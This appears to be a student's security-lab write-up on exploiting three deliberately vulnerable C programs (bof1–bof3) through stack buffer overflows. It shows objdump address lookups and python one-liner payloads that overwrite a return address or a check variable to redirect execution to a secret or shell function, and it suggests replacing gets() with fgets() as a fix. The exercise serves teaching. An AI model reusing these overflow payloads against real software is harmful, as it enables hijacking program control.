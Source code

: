 # LAB 1

## File bof1.c

**Run vitual environment by docker**
>docker run -it --privileged -v D:\StudyHK1_2024\InformationSecurity\SecLabs:/home/seed/seclabs img4lab

**Getting secretFunc() address by command**
`objdump -d bof1.out|grep secretFunc`

![alt text](./image/image.png)

**Stack frame**
![alt text](./image/image-1.png)


=> It’s a buffer overflow at the 205th byte.

**Run the program by the command**
- Take advantage of the above statement to automatically input 204 bytes of the letter 'a', then insert the address of the `secretFunc` function.
- replacement byte (204byte) + address secretFunc(\x6b\x84\x04\x08)
 > echo $(python -c "print('a'*204 + '\x6b\x84\x04\x08')") | ./bof1.out

![alt text](./image/image-2.png)

=> Successful Attack

=> To prevent exploitation in this case, I will replace `gets()` with `fgets()` to ensure the correct limit of array a is respected.


## File bof2.c

**Summarizing**

- In this case, the array buf[] has 40 elements, but the `fgets()` command reads up to 44 elements `(fgets(buf, 45, stdin))`, with the last element reserved for `\0`, the null terminator character.

 => We rely on the last 4 elements to modify the check.

**Stackframe**

![alt text](./image/image-3.png)

**Run the program with the command**

![alt text](./image/image-5.png)

>echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')") | ./bof2.out
![alt text](./image/image-6.png)

=> Successfully


## File bof3.c

**Summarizing**

- In this case, the `buf[]` array has 128 elements, but the `fgets()` command reads up to 133 elements.

 => We rely on 4 elements to replace the address addition function into the address function shell

**Stack frame**

![alt text](./image/image-7.png)
**Get the shell function's address**
`objdump -d bof3.out|grep shell`
![alt text](./image/image-8.png)

**Run the program with the command**

`echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.out`

![alt text](./image/image-7.png)

=> Seccessful
